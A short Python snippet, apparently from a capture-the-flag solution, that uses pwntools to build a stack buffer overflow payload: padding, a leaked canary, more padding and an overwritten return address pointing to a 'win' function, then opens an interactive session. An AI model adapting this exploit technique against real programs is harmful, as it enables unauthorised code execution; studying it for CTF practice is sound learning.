 ```python
c.recvlines(4)

addr_offset = cyclic_find(0x61616164)

size = offset + 4 + addr_offset + 4 + 1
c.sendline("a")
c.sendline(str(size))

payload_return = "a"*offset
payload_return += canary
#payload_return += cyclic(size-offset-4-1)
payload_return += "a"*addr_offset
payload_return += p32(win_addr)
payload_return += "\n"

c.sendline(payload_return)
c.recvlines(10)
c.sendline("d")

c.interactive()
```
---